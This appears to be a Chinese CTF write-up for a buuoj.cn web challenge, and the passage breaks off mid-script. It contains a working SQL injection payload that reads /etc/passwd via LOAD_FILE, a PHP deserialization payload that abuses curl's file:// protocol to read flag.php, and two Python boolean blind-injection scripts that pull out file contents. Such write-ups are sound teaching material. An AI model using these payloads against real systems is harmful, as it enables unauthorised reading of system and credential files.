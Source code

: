 ~~~
```
0 and 1=2 union/**/select 2,LOAD_FILE('/etc/passwd'),4,'O:8:"UserInfo":3:{s:4:"name";i:1;s:3:"age";i:2;s:4:"blog";s:29:"file:///var/www/html/flag.php";}' from users 
```
user.php.bak里的curl支持file协议

file协议和http协议的区别:https://www.cnblogs.com/lishanlei/p/9327646.html

简单来说就是file是读本地文件.file协议用于访问本地计算机中的文件，好比通过资源管理器中打开文件一样，需要主要的是它是针对本地的，即file协议是访问你本机的文件资源

这两种会使php代码执行(1)直接在网站打开.(2)使用LOAD_FILE()直接读取.而执行的flag.php看不到任何内容(flag估计是藏在源码里).但可以使用file协议读取文件(在这里和LOAD_FILE()直接读取不一样,利用curl对file协议的支持可以读取文件的源代码)

(但这里可以用LOAD_FILE()进行布尔盲注,源码照样给爆出来)

好了,下面说下最终解题:

## 一.反序列化解题:
构造:((1)数据结构可以从sql注入后爆的data字段看出(2)数据结构也可以从user.php.bak看出(主要))
```
no = 0/**/union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";i:1;s:3:"age";i:2;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'
```
## 二.布尔盲注:
第一种:(利用二分法)
```python
import requests

url = 'http://db8f9134-951a-489a-9a8c-a87b93455801.node3.buuoj.cn/view.php?no='
result = ''

for x in range(0, 100):
    high = 127
    low = 32
    mid = (low + high) // 2
    while high > low:
        payload = "if(ascii(substr((load_file('/var/www/html/flag.php')),%d,1))>%d,1,0)" % (x, mid)
        response = requests.get(url + payload)
        # print(response.text)
        if 'a.html' in response.text:#a.html是当初注册时加进去的.开始时犯傻,选"a",结果怎样都注不出...
            low = mid + 1
        else:
            high = mid
        # print(low)
        # print(high)
        mid = (low + high) // 2
        print(mid)

    result += chr(int(mid))
    print(result)
```
![My helpful screenshot](/assets/img/2019-11-28-01/4.png)

第二种:(参考之前的脚本)
```python
import requests
import string

url="http://db8f9134-951a-489a-9a8c-a87b93455801.node3.buuoj.cn/view.php"
temp=''
str1=string.printable
for i in range(1,100):
    for a in str1:
        params={#if 也可以
~~~